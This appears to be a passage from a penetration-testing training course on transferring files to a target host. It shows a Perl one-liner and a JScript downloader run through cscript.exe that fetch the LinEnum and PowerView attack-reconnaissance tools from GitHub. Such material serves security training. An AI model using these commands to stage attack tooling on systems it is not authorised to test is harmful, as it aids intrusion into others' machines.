 ___

#### Perl - Download a File

Transferring Files with Code

```shell
6165@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

___

## JavaScript

JavaScript is a scripting or programming language that allows you to implement complex features on web pages. Like with other programming languages, we can use it for many different things.

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:

Code: javascript

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

#### Download a File Using JavaScript and cscript.exe

Transferring Files with Code

```cmd
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

___

## VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:
